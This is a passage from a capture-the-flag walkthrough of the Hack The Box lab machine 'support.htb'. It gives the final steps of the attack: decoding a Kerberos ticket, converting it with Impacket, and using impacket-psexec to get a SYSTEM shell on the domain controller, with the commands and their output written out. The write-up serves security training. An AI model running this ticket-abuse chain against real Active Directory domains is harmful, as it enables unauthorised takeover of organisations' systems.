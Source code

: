 ```bash
[+] Ticket successfully imported!
```
* Step 7 

(copy the base64 ticket.kirbi in a txt file on the attack machine and save it as ticket.kirbi.b64, then run the command ``` base64 -d ticket.kirbi.b64 > ticket.kirbi``` to decode to plaintext)

* Step 8 (use impacket-ticketCoverter to convert ```ticket.kirbi``` to ```ticket.ccache``` so it can be used by our linux tools)

```bash
impacket-ticketConverter ticket.kirbi ticket.ccache                                                       
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```
* Step 9 (define the ccache ticket that will be used for the kerberos tools)

```bash
export KRB5CCNAME=ticket.ccache
```

* Step 10 (own the domain controller with impacket-psexec)

```bash
impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file zmKhZNkE.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service iVUj on dc.support.htb.....
[*] Starting service iVUj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc

C:\Windows\system32> dir C:\Users\Administrator\Desktop 
 Volume in drive C has no label.
 Volume Serial Number is 955A-5CBB

 Directory of C:\Users\Administrator\Desktop

05/28/2022  04:17 AM    <DIR>          .
05/28/2022  04:11 AM    <DIR>          ..
05/24/2025  03:18 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,970,781,184 bytes free
```
Don't forget to collect your root.txt!